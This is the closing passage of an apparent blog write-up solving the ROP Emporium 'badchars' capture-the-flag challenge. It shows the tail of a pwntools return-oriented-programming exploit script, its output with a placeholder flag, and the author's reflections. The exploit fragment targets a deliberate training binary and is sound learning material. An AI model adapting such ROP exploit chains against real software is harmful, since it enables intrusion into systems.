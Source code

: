 ```py
payload += p64(0x4004ee) # empty ret gadget to align stack
payload += p64(elf.symbols['print_file'])

p.sendline(payload)
p.interactive()
```
And here's the flag:
```text
$ python3 solve.py
[+] Starting local process './badchars': pid 3674
[*] Switching to interactive mode
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```
GGs!

## Conclusion
This was a great introductory challenge, and probably my first real pwn challenge that wasn't simple buffer overflow. I never really understood pwn much before, but after a while of learning assembly through reverse engineering, it seems pretty fun! I'll definitely be doing more of these challenges in the future.

Originally I wanted to make a writeup for the other ROPEmporium challenges before this, but I felt like this one was a good way to demonstrate of all the previous skills needed.